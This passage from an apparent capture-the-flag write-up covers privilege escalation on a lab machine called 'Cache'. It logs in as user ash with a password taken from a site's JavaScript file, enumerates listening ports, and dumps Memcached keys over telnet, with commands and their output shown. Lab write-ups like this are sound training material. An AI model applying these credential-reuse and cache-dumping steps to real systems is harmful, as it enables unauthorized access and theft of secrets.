 ## Escalate to User Ash
Remember the credentials that we got from the **```functionality.js```** in the login.html? Let's try it.
<br />
```bash
www-data@cache:/$ su ash
su ash
Password: H@v3_fun

ash@cache:/$ 
```
<br />It worked. We can now get the user flag from the home directory of ash.
## Privesc Enumeration as Ash

### Netstat 
Let's enumerate open tcp ports:
<br />
```bash
ash@cache:/$ netstat -l -n -t
netstat -l -n -t
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
```
<br />There is an odd port that's open (port 11211). It turns out, it is [Memcached](https://memcached.org/). We can connect to it for keys that might have been set.

### Connecting and Dumping Memcached Contents
We can use Telnet to connect to Memcached.
<br />
```bash
ash@cache:/$ telnet localhost 11211
telnet localhost 11211
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.

```
<br />Next we check the items for keys:
<br />
```bash
stats items
stats items
STAT items:1:number 5
STAT items:1:number_hot 0
STAT items:1:number_warm 0
STAT items:1:number_cold 5
STAT items:1:age_hot 0
STAT items:1:age_warm 0

```
<br />The number after "items" is the slab id. There are no other slab ids. We can check the keys inside the slab class.
<br />
```bash
stats cachedump 1 1000
stats cachedump 1 1000
```